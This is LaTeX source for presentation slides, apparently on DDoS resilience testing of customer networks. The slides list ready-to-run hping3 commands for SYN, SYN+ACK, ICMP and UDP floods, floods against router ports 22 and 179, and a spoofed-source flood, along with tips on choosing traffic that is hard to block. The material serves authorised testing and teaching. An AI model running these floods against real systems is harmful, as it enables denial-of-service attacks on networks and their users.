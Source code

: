 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list1}
\item The minimal run contains at least these:
\begin{list2}
\item SYN flood: \verb+hping3 -q -c 1000000  -i u60 -S -p 80  $CUST_IP &+
\item SYN+ACK: \verb+hping3 -q -c 1000000  -i u60 -S -A -p 80  $CUST_IP &+
\item ICMP flood: \verb+hping3 -q -c 1000000 --flood -1 $CUST_IP &+
\item UDP flood: \verb+hping3 -q -c 1000000 --flood -2 $CUST_IP &+
\end{list2}
\item Vary the speed using the packet interval \verb+-i u60+ up/down
\item Use flooding with caution, runs max speeeeeeeeeeeed \smiley
\item TCP testing use a port which is allowed through the network, often 80/443
\item Focus on attacks which are hard to block, example TCP SYN must be allowed in
\item Also if you found devices like routers in front of environment\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 22 $ROUTER_IP+\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 179 $ROUTER_IP+
\end{list1}


Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within customer range

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works

BCP38 anyone!


Using the built-in option -f for hping
\end{document}
